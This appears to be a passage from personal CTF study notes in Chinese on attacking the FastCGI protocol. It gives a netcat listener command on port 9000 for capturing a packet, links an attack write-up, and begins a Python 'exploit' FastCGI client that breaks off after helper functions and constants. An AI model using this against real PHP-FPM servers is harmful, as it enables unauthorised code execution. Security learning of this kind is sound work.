 发送数据包得到flag

**FastCGI协议**

![image-20240118195717205](E:\学习资料\网安\笔记\笔记截图\image-20240118195717205.png)

FastCGI协议攻击 https://blog.csdn.net/mysteryflower/article/details/94386461

监听9000端口nc  -lvvp 9000 > 1.txt

使用exploit

```python
import socket
import random
import argparse
import sys
from io import BytesIO

# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client

PY2 = True if sys.version_info.major == 2 else False


def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])

def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)

def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')

def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s


class FastCGIClient:
    """A Fast-CGI Client for Python"""

    # private
    __FCGI_VERSION = 1

    __FCGI_ROLE_RESPONDER = 1
    __FCGI_ROLE_AUTHORIZER = 2
    __FCGI_ROLE_FILTER = 3

    __FCGI_TYPE_BEGIN = 1
    __FCGI_TYPE_ABORT = 2
    __FCGI_TYPE_END = 3
    __FCGI_TYPE_PARAMS = 4
```
